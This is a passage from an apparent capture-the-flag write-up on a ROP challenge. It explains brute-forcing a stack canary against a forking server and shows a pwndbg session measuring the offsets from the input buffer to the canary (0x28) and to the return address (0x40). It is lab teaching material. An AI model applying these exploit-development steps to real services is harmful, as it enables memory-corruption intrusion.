 This method works because:  
- The canary is **at a fixed offset** from the input buffer. 
- The server forks a new process for each connection, so even if we crash one, the next attempt is fresh. 
- We can reuse the crash information to determine **which byte guess was correct**.

> This method is reliable as long as the process resets and the canary stays consistent between forks.
{: .prompt-tip}

We’ll use `pwndbg` to determine this offset by:
```plaintext
Thread 2.1 "babyrop_level14" hit Breakpoint 1, 0x000056657562d90a in challenge ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────
 RAX  0x7ffef6753230 —▸ 0x56657562db30 (__libc_csu_init) ◂— endbr64 
 RBX  0x56657562db30 (__libc_csu_init) ◂— endbr64 
 RCX  0x7ffef67533b8 —▸ 0x7ffef6754224 ◂— '/challenge/babyrop_level14.1'
 RDX  0x1000
 RDI  0
 RSI  0x7ffef6753230 —▸ 0x56657562db30 (__libc_csu_init) ◂— endbr64 
 R8   0
 R9   0x75157d625540 ◂— 0x75157d625540
 R10  0x75157d625810 ◂— 0x33a5
 R11  0x246
 R12  0x56657562d240 (_start) ◂— endbr64 
 R13  0x7ffef67533b0 ◂— 1
 R14  0
 R15  0
 RBP  0x7ffef6753260 —▸ 0x7ffef67532c0 ◂— 0
 RSP  0x7ffef6753200 —▸ 0x566575630010 (stdout@@GLIBC_2.2.5) —▸ 0x75157d61f6a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
 RIP  0x56657562d90a (challenge+55) ◂— call 0x56657562d1c0
──────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────
 ► 0x56657562d90a <challenge+55>    call   read@plt                    <read@plt>
        fd: 0 (socket:[677344362])
        buf: 0x7ffef6753230 —▸ 0x56657562db30 (__libc_csu_init) ◂— endbr64 
        nbytes: 0x1000
──────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────
 ► 0   0x56657562d90a challenge+55
   1   0x56657562dafe main+457   <--- Ret addrr
   2   0x75157d456083 __libc_start_main+243
   3   0x56657562d26e _start+46
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> i f
Stack level 0, frame at 0x7ffef6753270:
 rip = 0x56657562d90a in challenge; saved rip = 0x56657562dafe
 called by frame at 0x7ffef67532d0
 Arglist at 0x7ffef6753260, args: 
 Locals at 0x7ffef6753260, Previous frame's sp is 0x7ffef6753270
 Saved registers:
  rbp at 0x7ffef6753260, rip at 0x7ffef6753268
pwndbg> dist $rsi $rbp-0x8
0x7ffef6753230->0x7ffef6753258 is 0x28 bytes (0x5 words)
pwndbg> dist $rsi 0x7ffef6753270
0x7ffef6753230->0x7ffef6753270 is 0x40 bytes (0x8 words)
pwndbg> 
```
> This offset tells us exactly how many bytes to send before reaching the canary.
{: .prompt-tip}
